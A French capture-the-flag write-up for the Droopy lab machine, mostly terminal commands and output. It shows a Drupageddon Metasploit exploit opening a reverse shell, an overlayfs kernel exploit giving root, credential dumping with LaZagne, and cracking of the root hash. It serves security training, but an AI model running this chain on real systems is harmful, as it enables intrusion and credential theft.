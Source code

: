 # DroopyCTF

1.Énumération

**<span style="color: #dddddd;">👁️</span> Massap**

```
┌─[m0rph3u5@parrot]─[~/Documents]
└──╼ $sudo sh massap.sh

   *                                
 (  `                               
 )\))(      )             )         
((_)()\  ( /(  (   (   ( /(  `  )   
(_()((_) )(_)) )\  )\  )(_)) /(/(   
|  \/  |((_)_ ((_)((_)((_)_ ((_)_\  
| |\/| |/ _` |(_-<(_-</ _` || '_ \) 
|_|  |_|\__,_|/__//__/\__,_|| .__/  
                            |_|     

by M0rPH3U53
      
[i] Scan IP: 192.168.56.195
[i] Rate: 1000
 
[+] Scan Masscan 192.168.56.195...100%
[+] Scan Nmap 192.168.56.195...100%
 
[+] 80/tcp open
 
==========================================================
|                         Rapports                       |
==========================================================
| Nmap:/home/m0rph3u5/Massap/192.168.56.195-tcp.html     |
==========================================================
```

&nbsp;

**Rapport Nmap**

![Capture du 2025-04-16 13-19-43](https://github.com/user-attachments/assets/8afe7517-8e8c-48fb-b43d-000d0371ffc5)

&nbsp;

<span style="color: #dddddd;">💥</span> **Metasploit - drupal_drupageddon** 

Exploitation de la `CVE` trouver par `nmap` ( cve-2014-3704)

```
[msf](Jobs:0 Agents:0) exploit(multi/http/drupal_drupageddon) >> set lhost 192.168.56.149
lhost => 192.168.56.149
[msf](Jobs:0 Agents:0) exploit(multi/http/drupal_drupageddon) >> set rhosts 192.168.56.196
rhosts => 192.168.56.196
[msf](Jobs:0 Agents:0) exploit(multi/http/drupal_drupageddon) >> run
[*] Started reverse TCP handler on 192.168.56.149:4444 
[*] Sending stage (40004 bytes) to 192.168.56.196
[*] Meterpreter session 1 opened (192.168.56.149:4444 -> 192.168.56.196:55448) at 2025-04-16 19:05:25 +0200

(Meterpreter 1)(/var/www/html) >
```

&nbsp;

**<span style="color: #dddddd;">🤖</span> LinPeas**

Élévation de privilege avec linpeas

```
www-data@droopy:/tmp$ ./linpeas.sh

╔══════════╣ Executing Linux Exploit Suggester
╚ 
[+] [CVE-2015-1328] overlayfs

   Details: http://seclists.org/oss-sec/2015/q2/717
   Exposure: highly probable
   Tags: [ ubuntu=(12.04|14.04){kernel:3.13.0-(2|3|4|5)*-generic} ],ubuntu=(14.10|15.04){kernel:3.(13|16).0-*-generic}
   Download URL: https://www.exploit-db.com/download/37292

```

&nbsp;

&nbsp;

**<span style="color: #dddddd;">💀</span> Exploit Overlays**

Test de l'exploit trouver precedement

```
www-data@droopy:/tmp$ gcc overlays.c   
gcc overlays.c
www-data@droopy:/tmp$ ./a.out
./a.out
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
# bash -i
root@droopy:/tmp#
```

&nbsp;

<span style="color: #dddddd;">👾</span> **LaZagne**

Cherchons des mot de passe sur la machine

```
root@droopy:/tmp/LaZagne-2.4.6/Linux# python laZagne.py all
python laZagne.py all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Shadow passwords -----------------

[+] Password found !!!
Login: gsuser
Password: gsuser

[+] Hash found !!!
Login: root
Hash: $6$fSUKb/ov$EFE6LjrVpz2yJrd2QSQEe/mGQ.8q3xXi9s5CJL95ngeh95PS91e10XLav4gRE1z4jv1Wmb6WH24yVQA6GKwEl/:16415:0:99999:7:::


[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 1.15886497498
```

&nbsp;

**<span style="color: #dddddd;">🧨</span> JohnTheRipper**

Crack du mot de passe `root`

```
┌─[m0rph3u5@parrot]─[~]
└──╼ $john droop 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 2 candidates buffered for the current salt, minimum 8 needed for performance.
toor             (root)     
1g 0:00:00:00 DONE 1/3 (2025-04-16 19:30) 16.66g/s 166.6p/s 166.6c/s 166.6C/s rootroot..RootRoot
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

&nbsp;

Identifiant trouver

| Users | Passwords |
| --- | --- |
| root | toor |
| gsuser | gsuser |
